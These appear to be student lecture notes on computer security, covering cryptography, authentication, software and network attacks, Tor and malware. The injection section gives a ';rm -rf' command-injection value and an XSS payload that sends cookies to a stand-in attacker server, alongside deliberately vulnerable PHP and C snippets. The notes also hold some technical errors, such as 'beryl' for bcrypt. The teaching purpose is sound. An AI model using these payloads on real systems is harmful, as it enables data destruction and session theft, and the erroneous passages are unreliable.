Asymmetric encryption is slow, but symmetric is fast. Thus we could first start by sharing a key using asymetric cryptography, and then encrypt the message using symmetric cryptography (using the key). This process is repeated every time Alice wants to talk to Bob (thus each time, a new key is generated). Each of these exchanged with a new key is called a **session** and each key $k_1, k_2, \dots$ is called **session key**

Note that if an advarsary manages the get Bob's private key, he can decrcypt every single key that was generated and thus every single message. This is why we want another property :

> New security property : **forward secrecy** : the secrecy of the messages in a session is kept even if long term keys are compromised

To ensure this property, we start using **modulos**. In real life, we do arithmetic modulo a large primpe number $p$ ($\gt 1024$ bits). Additions, multiplications and exponentiations can be computed modulo $p$, but discrete logarithms are extremely hard (given $(a, a^x \mod p)$, what is $x$?)

An example of **hybrid encryption** (asymetric then symmetric) uses the Diffie-Hellman key exchange protocol

---

#### Diffie-Hellman key exchange

We have some shared public parameters $p$ (the modulo) and $g$ (the base). Alice generates a secret key $x$ and Bob another random key $y$ (both freshly generated at every session), then Alice generates $P_b$ and Bob generates $P_a$
$$
P_b = g^x \mod p \\ P_a = g^y \mod p
$$
They then send each other $P_a$ and $P_b$. Then they compute their shared key $k$ that can be used for symmetric encryption 
$$
\text{Alice : } (P_a)^x = (g^y)^x = g^{xy} = k \\
\text{Bob : } (P_b)^y = (g^x)^y = g^{xy} = k
$$
:information_source: we still do operations modulo $p$

Note that this method provides forward secrecy, as discovering the key for a session doesn't compromise the key for any other session


## 5.	Authentication

> **Authentication** is the process of verifying a claimed identity

We have many ways of proving who you are :

- traditional ways :
  - what you know : password, secret key
  - what you are : biometrics
  - what you have : smart card, secure token
- modern ways :
  - where you are : IP, location
  - how you act : behaviour authentication
  - who you know : social ties
  - ...


### Authentication password

> A **password** is a secret shared between user and system

:warning: we need **secure transfer** (password may be eavesdropped), **secure check** (naïve checks may leak info about the password), **secure storage** (if stolen the full is compromised) and **secure passwords** (easy to remember passwords tend to be easy to guess)

How can Bob be sure that he is speaking to Alice?


To provide secure transfer we use encryption so that Eve cannot read the password. There's still an enormous problem : **replay attacks**. Eve could replay (send again) the same identification token sent from Alice to Bob and impersonate them. In order to solve replay attacks, Alice first sends "Hey Bob! I want to login". Bob then answers with a new random number $R$ called the **challenge**. Alice then sends $(usrName, pass)=(Alice, Encryption(password, R))$. This cannot be reused by Eve since $R$ is a one time use


In order to provide secure storage (Bob has a database with passwords stored and must consult it in order to check if the password sent by Alice is correct). If Eve manages to get access to the DB, they can impersonate anyone in the system, we have multiple options to provide secure storage :

- store password encrypted. In order for this to work, we need a key... that can also be stolen

- store password as a "hash" of its value. Generally users tend to use a limited set of passwords (the one they can remember). An attacker could thus compute $H(word)$ for every word in the dictionary and see if the results is in the password file

- store password as a "hash" + "salt". We create the hash of the password concatenated with a "salt" (number) which is different for each entry. This forces dictionary attackers to repeat the process of generated all hashes for every salt. Note that dictionary attacks are still possible but way more difficult
  $$
  (Alice, h=H(password||salt1), salt1)
  $$
  We could also use hash functions designed to be slow (beryl, scrypt, argon2), aka 1 sec instead of a few nanoseconds. For Bob and Alice, this doesn't change much, for Eve on the other hand, creating a dictionary will now be slower by orders of magnitude. Finally, we could also store multiple hashes (e.g. $H(H(H(H(password||salt))))$). We could also require specific elements in passwords to increase entropy. Finally we could use split chekcs : require a second server to invalidate offline attacks. And of course, use access control!


To provide secure checking, we also have multiple options :

- check letter by letter : this leaks information about the password (the more time Bob takes to answer Alice "yes, this is the good password" or "no, wrong password try again", the more letters are correct in the password)
- always check everything : better

What about errors? 20% of all password errors come from caps lock, first letter case wrong or adding a character add the end. Why not let the user enter when such a scenario happens, this is what [some researchers](https://typtop.info/) thought about. A way to implement it could be to store multiple hashes in the database corresponding to the password with the typical errors

---


### Biometrics

The problem with passwords, is that strong passwords are difficult to remember (so users write them and reuse them across systems) and can easily be stolen (key logger, shoulder surfing, phishing (email prompting user to send their password), social engineering)

**Biometrics** is the measurement and statistical analysis of peopl's unique physical characteristics (e.g. fingerprint, face recognition, retina, voice, handwritten signature, DNA). Compared to passwords, there's nothing to remember, they are passive (don't need to do much to authenticate), they are difficult to delegate and if the algorithm is very accurate, they are unique


There are two phases in biometric authentication : 

1. **enrollment** : first capture the biometric via a sensor (fingerprint reader, camera, ...), then process it via different algorithms depending on the type of biometric into a stream of bits called **biometric template**
2. **verification** : once again, the biometric is captured and processed, then the template obtained is compared to the stored one. The comparing process doesn't look for an exact match, but for an entry "close enough" (imagine face recognition with/without makeup or a pimple on the face, ...)

The verification method outputs `true` or `false` depending if it's a match or not (if it's a match, they don't need to be exact copy, but close enough). This can introduce some **false positives** (thinking it matches, but it doesn't) and **false negatives** (think it doesn't match, but they in fact do). This system sacrifices some security to increase usability

:information_source: False positives and false negatives are at the two ends of a balance : $FN \uparrow \implies FP \downarrow$ and $FN \downarrow \implies FP \uparrow$ 


There are problems with biometrics. For example, they are hard to keep secret (e.g. signature on ID card, fingerprint left everywhere, photos of your face, ...). The revocation is difficult (e.g. if someone stole the photo of your iris, you cannot create a new one like you would do for a password). These methods may reveal private information (e.g. iris -> disease, face -> identity). Finally, they are identifiable and unique, thus if one get compromised, all get compromised

---


### Tokens

The idea is to identify users using "what they have" (e.g. credit cart), but are rarely used alone, e.g.

- credit card + PIN
- token + ID number
- electronic USB calc. (card + token) + PIN
- connect to iCloud : phone (QRcode) + Verfication code (SMS)

This works using a key

Token have usability issues (you need to have the device)


## 6.	Adversary reasoning

There attack engineering process :

1. Define a security policy (principals, assets, properties) and a threat model. An adversary could exploit misidentified principals, assets or properties, or capabilities beyond what is considered in threat model
2. Define security mechanisms that support the policy given the threat model. An adversary could exploit design weaknesses/flaws in the the security mechanisms (e.g. using weak keys, ...)
3. Build and implementation that supports / embodies the mechanisms. An adversary could exploit the implementation or operation problems that allow you to subvert the mechanisms


To reason about attacks, we use **threat modelling methodologies**. The idea is to help security engineers reason about threats to a system (aka. what could go wrong) by identifying potential threats and unprotected resources with the goal of prioritizing problems to implement security mechanisms

There are different ways of looking at the system : **Attack trees** (attack goal is the root and the ways to achieve this goal are representend by branches. The leafs are the weak resources), **STRIDE** (identify entities, events and boundaries. Reason about threats enumerating the type of threats that can be embodied by the adversary), **P.A.S.T.A.** (find threats within buisiness model, assess impact and prioritze based on risk), and many more!

Note : STRIDE stands for Spoofing, tampering, repudiation, information disclosure, denial of service and elevation of privileges


Common weaknesses enumeration ([CWE](https://cwe.mitre.org/top25/archive/2020/2020_cwe_top25.html)) is a database of software errors leading to vulnerabilities to help security engineers avoid pitfalls (aka. what not to do). Let's see a subset of those pitfalls :

- **insecure interaction between component** : subsystem feeding data that is not sanitized to another subsystem. This can be avoided using **SANITIZATION** (remember BIBA model)

  - CWE-78 : OS command injection : Imagine a webform with the PHP code running on the server

    ```html
    <form action"/url/myscript.php" method="post">
      userName: <input name="userName" type="text" />
      <input name="submit" type="submit" value="Submit" />
    </form>
    ```

    ```php
    $userName = $S_POST["userName"];
    $command = 'ls -l /home/'.$userName;
    system($command)
    ```

    The problem is that there is no check for `userName`. What happens if the user writes the string `;rm -rf` on the form? The command becomes `ls -l /home/;rm -rf` (list all files in /home/, then delete them all)

  - CWE-79 : Cross site scripting (commonly known at XSS) (improper neturalization of input during web page generation) : imagine a PHP code running on a server

    ```php
    $username = $_GET['userName'];
    echo '<div class"header"> Welcome, '.$username.'</div>';
    ```

    What happens if we browse the address `http://website.com/welcome.php?username='<script>alert("You have been attacked!");</script>'`. This would create a popup saying "you have been attacked!". A more dangerous case could be ``http://website.com/welcome.php?username='<script>http//adversaryserver/submit?cookie=document.cookie;</script>'` (this could allow the attacker to log as the user). This can be used the following way :

    

  - CWE-352 : Cross site request forgery (e.g. a malicious student makes a web page with lots of minions and rick & Morty images such that onLoad send a form request to a server. If the user browsing was logged in to the server, then the authentication checks will pass (see lecture)). These attacks exploit the confused deputy problem

- **risky resource management** : acts on inputs that are not sanitised (ways in which software does not properly manage the creation, usage, transfer or destruction of important system resources)
  - CWE-494 : Download of code without integrity check (:warning: never include in TCB components that you hvaae not positively verified). For example CVE-2008-3438 : Apple MacOSX does not properly verify the authenticity of updates
  - CWE-829 : Inclusion of functionality from untrusted control spheres (e.g. including javascript on a web-page that comes from an untrusted source (e.g. advertisement on website))
- **porous defenses** : defenses fail to provide full protection or complete mediation through missing checks or partial mechanisms (defensive techniques that are often misused, abused or just plain ignored)


## 7.	Software security

### Memory safety

Memory corruption is an unintended modification of memory location due to missing / faulty safety check

```c
void vulnerable(int user, int* array) {
  // missing bound check for user
  array[user] = 42;
}
```

There are two types of memory errors :

- temporal error :

  ```c
  void vulnerable(char* buffer) {
    free(buffer);
    buffer[12] = 42;						// doesn't work (undefined behaviour)
  }
  ```

- spacial error :

  ```c
  void vulnerable() {
      char buffer[12];
      char* ptr = buffer[11];
      *ptr++ = 10;						// out of the array
      *ptr = 42;
  }
  ```


CWE-134 : Uncontrolled format string : let's take a look at this code

```c
#include <stdio.h>
#include <string.h>

int main(void) {
  char buffer[100];
  const char userInput[] = "%d"; 	// or %s
  strcpy(buffer, userInput);
  printf(buffer);									// generates warning but no error
  return 0;
}
```

`printf` would print a string that has no end (no `\0` at the end). Since printf is stored on the stack, the program will interpret the "missing printf argument" as the next bytes on the stack until the next `\0` is encountered. Nowadays, at runtime, we get `illegal hardware instruction`

To solve this issue, line 8 could be replaced by `printf("%s", buffer);`


**Mitigations** to these attacks must follow three properties :

- Effectiveness against an attack : it effectively should be a defense. The approach should prevent attacks
- Efficiency : the approach should not add a high computation or memory burden
- Compatibility : low effort to be deployed : no need to change hardware or software, just add a flag

---


### Execution attacks

#### Attack scenario code injection : 

The idea is to force memory corruption to set up attack or redirect control-flow to inject code

```c
void vuln(char* userInput) {
  char tmp[MAX];				// no check that userInput < MAX...
  strcpy(tmp, userInput);
}

vuln(&exploit);
```

With knowledge of the stack, an adversary could provide a string longer than MAX and thus overwrite some data. On the left handside is the state of the stack before when entering the function `vuln`. What an adversary could do, is write some shell code at the beginning of its input, the fill the gap between the end of the code until the return address of the function and finally append the modify the return address to point to its shell code. When the function finishes, the OS the goes to the shellcode (where OS expects the return address) and execute the shell code

<div style="text-align: center;">


</div>
The best way of avoiding these attacks it to check systematically for user input (here, that strlen(userInput) is < MAX)

To help with this, OS have an integrated protection called **Data execution prevention** (DEP). Each page can be "writable" (will never be executed) or "executable" (can be executed, but not written by the user). This is implemented at the hardware level

---


#### Attack scenario code reuse:

The idea is to find addresses of "gadgets" (interesting piece of code for the attacker). This time, the attacker fills all of `tmp[MAX]` and base pointer with crap and overwrite the return address to point to one of those gadgets. He then append the base pointer after the gadget, the return address after the gadget and the first argument to gadget

This is called a **control-flow hijack**

To prevent this, the OS randomises locations of code and data regions (this is called address space layout randomization (ASLR)) to make it difficult to find those gadgets. Note that this has huge performance impact (~10%)

A less costly solution could be using **stack canaries** (following fail-safe default). The idea is to put "canary values" (a number) between a vulnerable buffer (e.g. `tmp[MAX]`) and the return address. Before returning, if the OS sees that the value has changed, this indicates a memory overflow. The program is stopped directly

Finally a last mechanism is the safe exception handlers which is a pre-defined set of handler addresses that the OS can return to if an error occurred (so that if the adversary has corrupted memory, its code will never be executed)


### Security testing

**Testing** is the process of executing a program to find errors. An **error** is a deviation between observed behaviour and specified behaviour. But testing can only show the presence of bugs, never their absence (Edsger W. Dijkstra)

Ideally, we would want to achieve testing of all:

- **control-flows** : test all paths through the program
- **data-flows** : test all values used at each location

Here's a small example showing the difference between control-flow and data-flow. If we only check control-flows, then checking for `a = 2` (condition `true`) and `a = 104` (condition `false`) would be enough to have checks all control flows. The problem is that by checking `a = 100`, we get a bug (index out of bound). This is why we want *ideally* to check all data-flows and control-flows

```c
void program() {
	int a = read();
  int x[100] = read();
  
  if (a >= 0 && a <= 100) { x[a] = 42; }
}
```

The problem is that it is impossible to check *everything*. To solve this, we use manual testing (code review, heuristic test cases) and automated testing (algorithms designed to run the program ton find bugs, algorithms enhanced by means to enforce properties)

In manual testing, we could perform exhaustive tests (cover all inputs), but that's not feasible due to massive state space for big programs. Another idea could be to perform functional testing (cover all requirements) or random testing (automate test generation)... Finally, we could use structural testing to cover all code

In automatic testing, we could go for a **static analysis** (analyse the program without executing it) but it creates imprecisions by lack of runtime information. We could also perform **symbolic analysis** (execute the program symbolically by keeping track of branch conditions... This is not scalable). Finally, we could employ **dynamic analysis** (e.g. fuzzing) which inspects the prorgam by executing it. However, it is challenging to cover all paths (even automatically)!


To quantify how much of the program was tested, we use **coverage**:

- **statement coverage** : how many statements (e.g. assignments, comparisons, ...) in the program have been executed
- **branch coverage** : how many branches among all possible paths have been executed

In practice, people use branch coverage


Example:

```pseudocode
if (a > 2)
	a = 2;
if (b > 2)
	b = 2;
```

We need minimum 1 test case for 100% line coverage (only need to set $a>2$ and $b>2$). For 100% branch coverage, we need 2 test cases (for example, once taking both $true$ branches and once taking both $false$ branches). Finally, for 100% path coverage, we need 4 test cases (we need to run all possible combinations)

---


#### Fuzzing

**Fuzzing** is a random testing technique that mutates input to improve test coverage. Modern fuzzers use coverage (ouput) as feedback to mutate the next inputs to feed to the program

We have 3 different methods to generate inputs:

- **dumb fuzzing** : unaware of the input structure; randomly mutates input
- **generation-based fuzzing** : has a model that describes inputs (e.g. inputs are days of the week); input generation produces new input seeds in each round
- **mutation-based fuzzing** : (most advanced) leverages a set of valid seed inputs; input generation modifies inputs based on feedback from previous rounds

There is no perfect fuzzer, thus we need to use multiple different when fuzzing a program

---


#### Sanitizers

**Sanitizers** enforce some policy that help detect bugs earlier than test cases and increase effectiveness of testing

An example of a sanitizer is Asan (memory sanitizer). ASan can detect out-of-bounds accesses to heap, stack and globals, use after free, double free, memory leaks, ... Note that ASan introduces a 2x slowdown! This is why these kind of sanitizers are not used in production

Another example is the UndefinedBehaviourSanitizer (UBSan). It detects unsigned/misaligned pointers, signed integer overflow, illegal pointer arithmetic, ... This time, the slowdown depends on the amount and frequency of checks. This is the only sanitizer that can be used in production


## 8.	Network security

It tourns out that the network it not that simple clear glass pipe that we used throughout the whole lecture :o. It is way more complicated!

For a network to work, we have to do different operations (in each of them, we can have security problems) :

- **naming security** : the association between lower level names (e.g. network addresses) and higher level names (e.g. Alice, Bob) must not be influenced by the adversary. We want integrity and authenticity
- **routing security** : the route over the network and the eventual delivery of messages must not be influenced by the adversary. We want integrity, authenticity, availability and authorization
- **session security** : messages within the same sessions cannot be modified (keep ordering and no adding/removing messages). We want integrity and authentication
- **content security** : the content of the messages must not be readable or influenced by adversaries. We want confidentiality, integrity and authenticity


### ARP spoofing (LAN)

ARP is the translation between IP and MAC addresses. Each host maintains a cached table of IP <=> MAC mappings. If not available, then broadcast an ARP request to query for target IP; an ARP reply responds with the MAC address for that IP

Does ARP provide naming security? No! Because if nobody checks, you can impersonate. This can also lead to man-in-the-middle attacks, denial of service attacks or abuse resource allocation (convince the gateway the I have a new MAC address so that my bandwidth cota is reset). This is thus also bad for routing security (e.g. mitm)

:information_source: The same happens in DNS, IP, Ethernet, ... No network protocol was (initially) designed with security in mind (because it was believed that outsiders are bad, insiders behave, trust them!)

To defend against **ARP spoofing**, we might use static read-only entries for critical services in the ARP cache of a host. Moreover, we can try to detect spoofing behaviours (e.g. check if one IP hsa more than one MAC reported by multiple IPs, or certify requests by cross-checking, or sending email if IP-MAC association change)

:warning: in ARP spoofing, the adversary changes the *origin IP* of the packets to trick the victim into believing the wrong $(\text{IP, MAC})$ pair


### DNS spoofing

DNS is used to find the relation between high level names and IPs. We can ask a DNS-resolver for the IP of a domain (say `www.google.com`) which will answer with google's IP (or ask another DNS server for the answer)

We have two types of attacks in **DNS spoofing** :

- **cache poisoning** : corrupt the DNS resolver with fake pairs $(\text{IP, domain})$
- **DNS hijacking** : corrupt the DNS responses (man in the middle) with fake pairs $(\text{IP, domain})$

This can lead to denial of service (for censorship for example) or redirection

To defend against DNS spoofing, we have deployed domain name system security extensions (DNSSEC). These extensions provide authentication and integrity (signed by authoritative DNS resolvers), but not confidentiality (not encrypted) (:information_source: DNSSEC protects a *DNS query*, not the connection to the server once the IP has been resolved )! Another way (used today) is using DNS-over-HTTPS (DoH) which sends DNS queries over HTTPS connections (providing confidentiality and integrity)

:warning: in DNS hijacking, the adversary changes the *content* of the communication, but not the origin which continues being the DNS resolver


### BGP spoofing

BGP is used to construct the routing tables between AS. Each router maintains a table of $(\text{IP subnet} \rightarrow \text{router IP, cost})$. Routes change based on faults, new contracts, cables, ... Since the cost is *crucial*, BGP updates constantly the tables by the choosing the routes with lowest cost

The router tables have no integrity nor authenticity!

To defend against **BGP spoofing**, filtering could alleviate the problem (some routes should really not come from some routers!). But there's no authority to guarantee the correctness of routes; the fundamental is that the design does not consider insiders as adversaries! Some use BGPsec, an effort started to acccept updates only if signed by the authority for the AS/IP block, but this is weakly deployed (due to complexity of key management)

:warning: BGP hijacking changes the route but does not change the origin nor destination of particular packets (by modifying them)


### IP security

An IP packet is composed of many fields, the ones we are interested in are `source address`, `destination address` and `header checksum`. There's no integrity nor authentication on `source address`, Eve can spoof Alice during the handshake procedure


This can lead to man-in-the-middle attacks (purple), denial of service attacks (green), Eve stealing Alice resources (yellow)



Finally Even could also deploy of denial of service to Charlie



To defend against IP attacks, IPSec was invented. It provides key exchange based on public key cryptography or shared symmetric key, an authentication header (AH) (authentication + integrity + replay attacks) and encapsulating security payload (ESP) (confidentiality). We have two modes :

- **transport** : protects IP packet payload using AH/ESP sent with the original IP headers
- **tunnel** : protect the whole packet (headers + payload)

:information_source: A lot of VPNs are built over IPSec in tunnel mode because it guarantees confidentiality, integrity, authenticity and protection against replay attacks. One of the uses of VPNs is to hide destination of a communication. When a client connects to the internet through a VPN, anyone on the network can only see the VPN IP address as destination (and not the real destination) thanks to IPSec Tunnel encryption


### TCP security

TCP is the protocol used inside/above the IP protocol because IP has issues (e.g. no reliability (packet drop), no congestion/flow control, no sessions, no multiplexing (no way to associate messages to a network address to specific applications / users)). TCP implements a 3-way handshake

:warning: The reason why TCP can be hijacked is the poor authentication mechanism


### TLS security

TLS stands for transport layer security

A man in the middle adversary (MITM) can observe communication and intercept and inject packets. Here's how the attack would go :

1. wait for TCP session to be established between client and server
2. wait for authentication phase to be over
3. only then use knowledge of sequence number to take over the session and inject malicious traffic
4. use mallicious traffic to execute commands
5. the genuine connection gets cancelled (desynchronized or reset)

TLS adds a "middle layer" between TCP and IP to provide communication security (confidentiality through symmetric encryption, authentication using public key cryptography and integrity using MAC and signatures). TLS provides forward secrecy

We have multiple possible attacks on TLS :

- downgrading attacks : implementation flaw that enable the adversary to force server and client to use a less secure version of TLS/SSL
- BEAST : exploits implementation weakness in TSL 1.0 in CBC which results in predictable IVs
- padding oracle : because of MAC-then-encrypt design, TLS is vulnerable to padding oracle attacks (they use block padding as an oracle to find out whether a decryption is right or wrong)
- renegotiation attacks : exploit the renegotiation feature of TLS that enable users to have new parameters. The adversary can inject his own packets at the beginning of the connection

And many more... DoS, crypto problems, protocol problems... Now provable security in TLS 1.3


### Denial of service (DoS)

Availability is one of the top three traditional desirable properties. A **denial of service attack** (**DoS**) prevents legitimate users from accessing a service. We can do this in two ways: crash the victime (e.g. exploit software flaws to make it stop) or exhaust the victim's resources (e.g. bandwidth, CPU, TCP connection state tables, ...)

Let's see a few example of where DoS has been used :

- **Skype kittens DoS** : when receiving about 800 kittens at once, your Skype (for Buissness only) client will stop responding for a few seconds. If a sender continues sending emojis your Skype client will not be usable until the attack ends

- **TCP SYN flood** : when a client asks for a TCP connection, the server stores a TCB (TCP control block) which is about 280 bytes. We can exploit this by sending a lot of SYN packets with a bogus origin address. Since TCB exist until a predefined timeout, at some point, no more TCBs can be stored (server memory exhausted) $\implies$ the next legitimate SYN request is rejected

  :information_source: To avoid TCP SYN flooding we use **SYN cookies** which minimize the state before you are "authenticated" (aka. before finishing the 3-way handshake). The rest of the useful TCB information is sent to the client which will have to send it back to the sever in the last step. Another way to handle the problem is using **proof of work** (client need to spend effort [to do a request in this case]) e.g. cryptographic puzzles

  

- **Teardrop attack** : sometimes packets are too long to be transmitted as 1 unit; IP includes a process to deal with *fragmentation* to be able to divide packets in transmittable units. On some OSes, if the fragment reordering cannot be done due to incorrect fragment offset (index of the fragment in the complete message), then the program would crash

- **Smurf attack** : the smurf attack is based on the ICMP protocol (used to send control messages and deal with errors). Among the functionalities enabled by ICMP is the `ping` utility to test reachability (which is basically an `echo request` and an `echo reply`. An adversary sends an `echo request` but sends a `BROADCAST` instead of a single packet (like `ping`). Morevover, the adversary tempers with the origin $\text{IP}$ by creating a packet with the victim's $\text{IP}$ as origin and `BROADCAST`'s $\text{IP}$. When a router sees the `BROADCAST` it sends the request to every machine on the network, and thus all the machine send a `echo answer` to the victim thinking it was a simple `ping` 

  

- **TCP RST injection** (used by China ("Great Firewall of China")) : send a TCP `RST` (reset) to close an active connection

  

### Other protections

Cryptography is the key for protection, but other solutions can help complementing cryptography (e.g NATs, Firewalls, DMZs, Intrusion detetion system)


**Network address translation** (**NAT**) implements a router that maintains routing tables of the form $(\text{Internal IP, port}) \iff (\text{External IP, port})$. This was created to save IPv4 address space (only 32 bits). This has security implications: an external entity cannot route into the NAT unless it uses an already mapped port


A **network firewall** is a router that connects an internal network to an external (public) network. It mediates all traffic and makes "access control" decisions according to a policy. The firewall inspects characteristics of the traffic and allow/deny traversal across the firewall. It also prevent flows that could be dangerous on contravene a securty policy in the internal network

Old firewalls come in two types: "stateless firewall" (choice between allowing all packets to high port all the time or not) and "stateful firewall" (can detect an active FTP session with the server and allow a connection back to a high port from the same server to the same client). Today, we have even more advanced firewalls called **deep packet inspection** (**DPI**) which evaluate the content and allow/reject based on rules. If the traffic is encrypted, then the firewall can either block all encrypted traffic or install client certificates that enable for decrpytion & insepection at the firewall

The key problem with firewall is that full mediation is slow (read/check/write). They cannot also authenticate any principal and cannot ensure the correctness of data on which to make decisions (thus vulerable to DoS attacks)

The role of a firewall is thus to allow "know good traffic" by "filtering out definitely bad traffic" and "filtering all traffic of a certain class" (e.g. social media, porn, ...). The key lesson is that a firewall is *not* a full substitue to other host and network security mechanisms! It is only a complement

To reduce the overhang of the firewall, we split a network in three parts:

- the WAN (outside) in red
- the DMZ in green stands for **de-militarized zone** with public services that will have to constantly go to and receive from WAN
- the LAN in blue which is for internal users only 



We rely on firewall to ensure that only traffic to well known services traverses the outer firewall. We then ensure that only traffic from the "bastion host" (green router at the tip of the blue arrow) enters LAN from DMZ; thus the bastion host can perform AC and filtering (e.g. VPN/IPSec/Proxy)

The result is that LAN can access DMZ and WAN, DMZ can access WAN. But flows in the other direction are restricted, monitored and authenticated. In case a service is compromised, internal resources (blue) are safe


## 9.	Privacy

### What is privacy in Privacy Enhancing Technologies (PETs)?

We have 3 different types of PETs depending on:

- the concerns they address
- their goals
- their challenges and limitations


1. The adversary are others (social privacy): this is the common approach for big industries such as facebook, twitter, ...
   - the privacy problem is defined by users (e.g. my boss knows I am looking for other jobs, my friends saw my naked pictures, ...)
   - the goal is to not surprise the user. For example, facebook allows users to "see their walls as someone in particular" (e.g. some content should be hidden from John). Others (e.g. whatsapp) propose easy defaults (e.g. only visible to friends, to everyone or custom). Finally, we could use privacy nudges (e.g. on a forum, a bot analyses (ML) posts and tell the user "other may perceive your post as negative" to users if it's the case)
   - the limitations is that it only protects from other users: trusted service provider (e.g. reddit, twitter, ...). It is also limited by the user's capability to understand policy and is based on user expectations (what if the expectations are null?)
2. The provider may be adversarial (institutional privacy)
   - concerns: the privacy problem is defined by Legislation: data should not be collected without user consent or processed for illegitimate uses. Data should be secured (correct, integrity, secure deletion)
   - goals: compliance with data protection principles: informed consent (user should know what data is collected), purpose limitation (data has to be collected for a concrete purpose and cannot be used for anything else), data minimisation (should only collect data related to the purpose of the system), subject access rights (users should be able to see, modify or delete collected data), preserving the security of data and auditability & accountability (should be possible to know when and how a breach has happend)
   - limitations:  never questions collection (assumes it is necessary), trusted service provider, limits misuses but not collection, limited scope (personal data != all data)
3. Everyone is the adversary (anti-surveillance privacy)
   - concerns: the privacy problem is defined by security experts. Data is discolosed by default through the ICT infrastructure: the adversary is anybody
   - goals: minimize disclose of personal information to anyone (both explicit and implicit)
   - limitations: privacy-preserving designs are narrow (difficult to create general purpose privacy). Industry lacks incentives and there are usability problems both for developers and users


### Privacy technologies

> The adversary is anyone and very powerful


#### End to end encryption

The problem we have is **traffic analysis**... For example when sending a mail, we send the mail to a server which will then use TLS over the network, routing the message to the destination server and finally to the destinataire. Even if we encrypt data, the IP source and IP dest in the header between source and first server is in plain text, thus anyone seeing this learnt something that breaks privacy

The address where data is stored may reveal information about the content and the address where the action happens may reveal information about the action / user


#### Anonymous communications – Tor

We need to protect the communicatin layer! Why anonymous communications

This is not only useful for criminals, hackers, ... but also for journalists, whistleblowers, ... as well as normal people (e.g. avoid tracking by advertising companies, express unpopular or controversial opinions, try uncommon things, ...)


The **Tor network** is composed a **onion routers** spread all around the world by volounteers. To send a message on the network, the first thing to do is 

1. select a path (the first node is called the **entry node**, the last node before the destinataire is called the **exit node** and the nodes in the middle are called the **middle nodes**). You can find the nodes and their public keys in a **directory authority** (see Master course)

2. prepare the circuit: first establish a secret key with the entry node using Diffie Hellman authenticated exchange (thus the client has a secret key between him and the entry node). Then ask the entry node to establish a connection between the client and the next node in the path (thus now the client shares a secret with the entry node and with the first middle node). Then do the same until the exit node

3. Now we have $\{k_1, k_2, \dots, k_n,\}$ where $k_1$ is the secret key between client and entry node and $k_n$ is the secet key between client and exit node. We send the stream of packets (message) by encrypting the them with the secret of each of each onion router in the following way:
   $$
   e=k_1(k_2(\dots(k_n(message))))
   $$
   This is called an **onion encryption**. We send send $e$ to the entry node which will decrypt the first layer (thus $e'=k_2(\dots(k_n(message)))$) and send them to the next node. When we arrive at the exit node, it decrypts the last layer uncovering the message

   

   :information_source: if we take the entry node for example, it only knows the sender and the next node... It knows nothing about the destination. For the middle nodes, they only know the previous node (which could be the entry node) and the next node (which could be the exit node); thus they cannot say anything about destination or origin. Finally, the exit node knows the destination and the last middle node; thus cannot say anything about the origin. Thus no node on the network knows both the origin and destination!


This method is very fast (used for web browsing, instant messaging, streaming, ...). We could also use a slower method called **mix networks** by encrypting the messages directly with the public key of the next node. The node then waits for a condition to be fullfiled (e.g. at least 4 messages in the queue) and then decrypts the message(s). The node then encrypt the message with the public key of the next node (which could be different for the different messages since they could come from different sources). The exit node doesn't encrypt the message but gives it to the receivers

This is called using email, voting, bitcoin, ...


:warning: onion routers are not real internet routers! They work at the application layer




:warning: the message is not encrypted by Tor between the exit node and the destination

:information_source: the difference between onion routing and VPN is that we have a central trusted entity (that could be corrupted) in a VPN. For the onion case, we apply the principle of decentralised trust which provides privacy as long as the adversary cannot see both edges (between client & entry node and between exit node & destination)


One last problem last: let's say we need to authenticate to the destination website... To avoid this problem, we use **anonymous credentials** which are attribute-based credentials. When shown these credentials, the server cannot know who the client is, nor learn anything the info it gives, nor distinguish two users with the same attribute, nor link multiple uses of the same credentials


## 10.	Malware

Malware is a short for **malicious software**. It is a software that fulfills the author's malicious intent (intentionally written to cause adverse effects). Many flavors with a common characteristic: perform some unwanted activity

:information_source: Note that $\text{Virus} \sub \text{Malware}$

Why do we have so many malwares? Homogeneious computing base (windows and android make very tempting targets), clueless use base, unprecedented connectivity (deploying remote / distributed attacks is increasingly easier). Malicious code has become very profitable (compromised computers can be used /sold to make money)

We have different types of malwares depending how how they move from device to device ($y$-axis) and depending if they can execute on their own ($x$-axis)



:information_source: Nowadays, those boundaries are not so well determined (for example we can have trojan horses that download viruses)


### Viruses

A **virus** is a piece of software that infects programs to monitor/steal/destroy. Viruses modify programs to include a copy of themselves and cannot survive nor execute without the host

A virus has the same permissions as the host (the host is acting as a confused deputy). Generally viruses are specific to operating system and hardware to take advantage of their details and weaknesses

Viruses also replicate to infect other content or machine (e.g. through email (link or attachment) or web)

Viruses can perform file infection (overwrite part of the program), macro infection (overwrite macro executed on program load (MS Excel, Word)) or boot infection which is the most difficult and infects the booting partition (which is part of the TCB)

Here's a famous virus: ILoveYou (2000) : it targets windows 9X/2000 through the mailing system. Victims received an email with an attachment called `LOVE-LETTER-FOR-YOU.txt.vbs` (`vbs` means executable, thus windows hides the extension). The virus replaces `JPG`, `JPEG`, `VBS`, `JS`, `DOC`, ... files and adds a script which launches at every system boot. It can alos send itself to each entry Outlook address book, sometimes changing the subject a bit. Finally, the virus would download a Trojan `WIN-BUGSFIX.EXE` which steals passwords

To defend against a virus, we can adopt multiple methods such as **antivirus softwares**. Antivirus softwares work either by using **signature-based detection** (detects bytes/instructions characteristics to viruses or hash of known malicious programs) or by using **heuristics** (check for signs that the virus is there (e.g. files that change name, files that have suspicious header sizes)). Another method is using **sandboxing** which is a way to run an application in a restricted environment with less privileges (e.g. using a VM)

---

### Worms

A **worm** is a computer program that uses a network to send copies of itself to other nodes. It does not need a host program to execute. It spreads autonomously over the network (email harvesting (address book, inbox, browser cache), network enumeration or scanning (at random or targeted))

A typical example of a worm is WannaCry (2017) which is a case of ransomware (require money to recover system). It exploits a vulnerability revealed in a NSA hacking toolkit leak. It encrypted data and asked for ransom in Bitcoins (300\$ in 3 days or 600\$ in 7 day or deletion of data). It affected more than 200.000 victims with 130k\$ obtained in ransom. The WannaCry worm was stopped thanks to a researcher that found the "kill switch": upon installation, the malware checked the existence of a web; if yes, it stopped. The researcher registered the website (thus the DNS request of the worm wouldn't fail) and the worm stopped. 

:information_source: why have a kill switch? The hackers don't want the worm to be studied: aka avoid worm study if hijacked or in sandbox mode

To defend against worms, here's what we could do:

- at host-level: protecting software from remote exploitation, stack protection technique, achieve diversity (different OS, different programs, different interfaces, ...) to increase protection and use antiviruses
- at network-level: limit the number of outgoing connections which would limit worm spreading. We could also add a personal firewall (e.g. block outgoing SMTP connections from unknown applications). Finally, we could also use intrusion detection systems

